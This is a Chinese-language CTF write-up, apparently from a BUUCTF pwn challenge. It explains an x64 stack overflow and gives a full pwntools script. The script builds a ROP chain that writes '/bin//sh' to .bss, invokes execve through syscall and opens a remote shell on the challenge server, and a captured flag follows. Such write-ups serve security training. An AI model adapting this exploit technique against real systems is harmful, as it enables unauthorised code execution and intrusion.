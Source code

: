 利用思路

栈溢出、没有Canary，再字符串中没有找到`/bin/sh`。在Disassembly界面`Alt T`寻找`syscall`字符串，发现有，所以考虑使用`execve`，在`x64`下，`execve`的系统调用号是$59$

``` c
int execve(const char *filename, char *const argv[], char *const envp[]);
```

`execve`有三个参数，第一个是存放了`/bin//sh`的指针，后面两个设置位`NULL`即可。那这个`/bin//sh`要存放在哪里呢？当然，可以放在栈上，但地址不容易确定。所以考虑放在`.bss`段上，在IDA用`Ctrl + s`即可查看各个段的位置。

所以我们的思路是利用ROP，先在`.bss`段开头处存放`/bin//sh`，然后设置`systcall`的参数，最后调用`syscall`即可

在Linux系统下`man syscall`可以方便看到不同架构下`syscall`调用的寄存器情况

用汇编写就是

``` asm
mov rsi [bss]
mov rax "/bin//sh"
mov [rsi] rax
mov rdi [bss]	 ;设置第一个参数
mov rdx 0		 ;设置第三个参数
mov rsi 0         ;设置第二个参数
mov rax 0x3B	  ;设置系统调用号
call syscall
```

exp

``` python
from pwn import *

p=remote('node4.buuoj.cn',29457)
context.log_level='debug'
def encode(s):
    res=''
    for i in range(len(s)):
        res += chr(s[i]^0x66)
    return res
pop_rdi = 0x4006e6
pop_rdx_rsi = 0x44c179
pop_rsi = 0x4040fe
bss = 0x6BC2E0
read = 0x449BE0
puts = 0x410550
open = 0x4102B0
syscall = 0x40139c
pop_rax = 0x449b9c
mov_rax_inrsi = 0x47f7b1
ROP = p64(pop_rsi) + p64(bss) + p64(pop_rax) + b'/bin//sh' + p64(mov_rax_inrsi) # input /bin/sh
ROP += p64(pop_rdi) + p64(bss) + p64(pop_rdx_rsi) + p64(0)*2 + p64(pop_rax) + p64(0x3B) + p64(syscall)
p.recvuntil("Please enter your Password: \n")
payload = 'a'*0x50 + encode(ROP)
p.sendline(payload)
p.interactive()
#flag{0b3cbb3d-891c-4f56-8b75-33f4f7d17bc7}
```


